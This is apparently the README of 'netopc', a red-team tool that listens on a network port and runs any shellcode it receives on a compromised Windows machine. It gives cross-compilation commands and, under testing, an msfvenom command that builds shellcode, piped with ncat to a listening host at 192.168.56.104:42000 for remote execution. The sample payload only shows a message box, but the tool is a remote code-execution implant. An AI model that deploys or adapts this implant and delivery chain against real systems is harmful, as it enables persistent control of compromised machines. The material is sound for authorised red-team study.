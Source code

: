 ## Overview

`netopc` is a tool designed for red team operations to enable remote execution of shellcode on compromised systems. 

It functions by listening for network connections, receiving raw machine code (shellcode), and executing the received code in a separate process.

## Prerequisites

- Linux environment
- MinGW-w64 toolchain installed for cross-compiling to Windows targets
- Standard development tools (make, gcc)

## Usage

Clean the project files:

```bash
make clean
```

### Compiling for x86

Use the following command to compile the project for x86 architecture:

```bash
make CC=i686-w64-mingw32-gcc
```

### Compiling for x64

For compiling the project to support x64 architecture, use the x64 specific MinGW-w64 compiler:

```bash
make CC=x86_64-w64-mingw32-gcc
```

Execute the compiled binary on a Windows machine or in a test environment:

```bash
./netopc.exe
```

### Testing

Use this command to start up `netopc`:

```powershell
PS C:\Users\User> .\netopc.exe
```

Use the following commands to generate shellcode that pops up a message box and then execute it remotely on the compromised system where `netopc` is running: 

```bash
msfvenom -p windows/messagebox -f raw > shellcode.bin
cat shellcode.bin |ncat 192.168.56.104 42000
```

![netopc](./.img/msfvenom.png)



